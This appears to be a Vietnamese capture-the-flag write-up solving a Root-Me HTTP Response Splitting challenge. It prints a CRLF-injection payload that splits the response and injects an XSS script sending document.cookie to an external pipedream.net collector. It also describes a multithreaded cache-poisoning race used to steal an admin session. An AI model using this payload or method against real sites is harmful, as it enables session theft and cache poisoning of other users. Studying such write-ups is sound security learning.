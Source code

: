 # HTTP Response Splitting

Lưu ý: trước khi giải bài này thì bạn cần phải biết về cách thức tấn công này để có thể thực hiện tấn công thành công. Bạn có thể đọc ở [đây](http://www.moqifei.com/archives/609). Mình đã đọc qua một vài trang viết về HTTP Response Splitting và trang web vừa rồi là trang web viết rõ nhất và dễ hiểu nhất.

Khi mở trang web lên thì mình nhận được yêu cầu phải chọn ngôn ngữ.

![anh1](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_1.png)

Thông qua việc tìm hiểu các tài liệu về HTTP Response Splitting, mình biết rằng mình có thể kiểm tra xem trang web có thể bị inject không  bằng việc sử dụng CLRF injection (sử dụng các kí tự `\r\n` để tạo xuống dòng trong request). Mình đã thử sử dụng và thêm vào 1 trường test=true. Sau khi kiểm tra response thì mình thấy dưới trường Set-Cookie của response có thêm trường test=true, tức là mình có thể thực hiện inject được.

![anh2](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_2.PNG)

Mình viết thêm đoạn payload như sau:

```
\r\nContent-Length: 0
\r\n
\r\nHTTP/1.1 200 OK
\r\nContent-Type: text/html
\r\nLast-modified: Thu, 01, Jan 2100 12:00:00 GMT
\r\nContent-Length: 138
\r\n
\r\n<script>document.write("<h1>test</h1><img src=http://eoyoae37hp6q6ss.m.pipedream.net".concat(document.cookie).concat(" />"))</script>

```

Ở đây, dòng Content-Length đầu tiên mình gán giá trị bằng 0, tức là inject vào gói response của server để kết thúc response thứ nhất. Sau đó mình viết thêm response thứ 2 cùng đoạn script để thực hiện XSS, gửi dữ liệu về 1 trang web thứ 3 và mình sẽ chờ ở đó để lấy dữ liệu. Last-modified mình set thành 1 giá trị khá lớn để tránh việc cập nhật lại cache của proxy, làm cho việc inject không thành công. Sau đó thực hiện encode url cho payload và gửi cho server.

![anh3](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_3.png)

Gửi request và thấy rằng mình đã tạo được 2 response thành công. Tuy nhiên nếu chú ý kĩ thì ở phần response của server trả về có trường Location.

![anh4](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_4.png)

Trường này sẽ chỉ định việc redirect về trang /home, và việc này diễn ra rất nhanh, vì vậy không thể thực hiện exploit thành công được. Vì theo mình hiểu thì HTTP response splitting hoạt động dựa vào việc attacker gửi 1 request có kèm payload để nhận về 2 response, 1 response sẽ trả về cho attacker, còn lại 1 response sẽ lưu trữ trên cache của proxy. Lúc này nếu 1 request khác bất kì kết nối đến trong lúc cache còn lưu trữ response kia thì nó sẽ tự động ánh xạ response này cho tất cả các request tương tự. Trong bài này thì attacker sẽ gửi 1 request có kèm payload, sau đó nhận về 2 response, 1 response sẽ được lưu trữ lại trên cache là response thứ 2 (HTTP/1.1 200 OK). Sau đó hắn gửi 1 request tới /admin, response còn lại sẽ được ánh xạ vào request này, tức là từ lúc đó về sau các request tới /admin đều sẽ nhận được response HTTP/1.1 200 OK của attacker dẫn tới việc bị dính đoạn code XSS. Lúc này khi admin vào /admin thì cũng sẽ bị ảnh hưởng tương tự.

Tuy nhiên nhờ vào trường Location có trong http response thì trình duyệt sẽ tự động nhảy về /home ngay lập tức, dẫn tới việc attacker không thể gửi request thứ 2 tới /admin kịp. Vì vậy để exploit thành công thì mình đã viết 1 đoạn code sử dụng multi-threading để có thể gửi request thứ 2 tới /admin trước khi bị chuyển hướng về /home.

Đoạn code này mình sẽ up lên sau.

Chương trình mình viết bao gồm 2 function, 1 để poison cache của proxy bằng việc gửi 1000 payload để inject và 1 để gửi request tới /admin làm cho việc inject thành công. Để chắc chắn mình đã cho 4 luồng chạy song song.

Chạy chương trình và đợi 1 khoảng thời gian sau đó để admin ghé thăm /admin thì mình nhận thấy việc inject đã thành công vì đã có 1 request gửi tới trang RequestBin chứa session của admin.

![anh5](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_5.PNG)

![anh6](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_6.png)

Đem admin session vừa lấy được đem submit và giải được bài này.

![anh7](https://github.com/quochuyy10217/MyCTFWriteups/blob/main/rootme/img_src/HTTPRessplit_7.png)